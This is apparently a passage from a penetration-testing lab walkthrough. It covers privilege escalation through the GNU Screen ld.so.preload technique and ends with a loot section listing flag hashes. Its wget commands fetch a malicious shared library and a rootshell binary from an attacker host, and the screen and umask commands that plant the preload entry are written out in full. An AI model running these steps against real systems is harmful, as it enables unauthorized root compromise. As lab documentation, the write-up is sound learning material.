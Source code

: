 Transfered files to target machine
```
wget http://192.168.49.197/libhax.so
wget http://192.168.49.197/rootshell
```

Followed the remaining commands in the exploit code.
```
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/var/lib/php/session/libhax.so"
```

Ran the exploit
```
/var/lib/php/session/rootshell
```

Root Access
![](../Attachments/Pasted%20image%2020211008190008.png)

---

# Loot
## User
>41e5ec5d5b22f619de757143deb5861c

Command
```
hostname -I | awk '{print $1}';id;hostname;cat local.txt
```

![](../Attachments/Pasted%20image%2020211007222041.png)

## Root/Admin
>396cd1e22c44054285261f62b7bccd19

Command
```
hostname -I | awk '{print $1}';id;hostname;cat proof.txt
```

![](../Attachments/Pasted%20image%2020211008190109.png)